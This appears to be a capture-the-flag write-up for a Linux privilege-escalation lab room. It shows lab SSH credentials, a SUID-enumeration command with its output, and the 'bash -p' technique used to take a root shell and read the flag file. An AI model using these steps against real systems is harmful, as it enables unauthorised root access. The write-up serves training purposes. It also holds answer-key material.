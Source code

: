 # [Day 11] Networking - The Rogue Gnome

## Topics

- Linux Privilege Escalation

### 1.  What type of privilege escalation involves using a user account to execute commands as an administrator?
```
vertical
```

### 2. What is the name of the file that contains a list of users who are a part of the sudo group?
```
sudoers
```

### 3. What are the contents of the file located at /root/flag.txt?

1. Use SSH to log in to the machine: `ssh cmnatic@MACHINE-IP`
    - Password: `aoc2020`
2. There's various ways to enumerate the machine. You can use enumeration scripts like __linpeas__ or __LinEnum__ and upload them to the machine like in the explanation. For this case it's a bit overkill, so we are just going to use `find / -perm -u=s -type f 2>/dev/null` to find files with the SUID permission.

__command output:__
```
/bin/umount
/bin/mount
/bin/su
/bin/fusermount
/bin/bash
/bin/ping
/snap/core/10444/bin/mount
/snap/core/10444/bin/ping
/snap/core/10444/bin/ping6
/snap/core/10444/bin/su
/snap/core/10444/bin/umount
/snap/core/10444/usr/bin/chfn
/snap/core/10444/usr/bin/chsh
/snap/core/10444/usr/bin/gpasswd
/snap/core/10444/usr/bin/newgrp
/snap/core/10444/usr/bin/passwd
/snap/core/10444/usr/bin/sudo
/snap/core/10444/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/10444/usr/lib/openssh/ssh-keysign
/snap/core/10444/usr/lib/snapd/snap-confine
/snap/core/10444/usr/sbin/pppd
/snap/core/7270/bin/mount
/snap/core/7270/bin/ping
/snap/core/7270/bin/ping6
/snap/core/7270/bin/su
/snap/core/7270/bin/umount
/snap/core/7270/usr/bin/chfn
/snap/core/7270/usr/bin/chsh
/snap/core/7270/usr/bin/gpasswd
/snap/core/7270/usr/bin/newgrp
/snap/core/7270/usr/bin/passwd
/snap/core/7270/usr/bin/sudo
/snap/core/7270/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/7270/usr/lib/openssh/ssh-keysign
/snap/core/7270/usr/lib/snapd/snap-confine
/snap/core/7270/usr/sbin/pppd
/usr/bin/newgidmap
/usr/bin/at
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/newuidmap
/usr/bin/traceroute6.iputils
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
```
Taking a look at the output, we can see various files that could be use to elevate our privileges, one of them being `/bin/bash`.
3. In GTFObins, search for SUID on bash. You should find the following command: `./bash -p`, instead of typing that, use `bash -p`.
4. You should now be root. You can double check with `whoami`
5. Print the flag in `/root/flag.txt`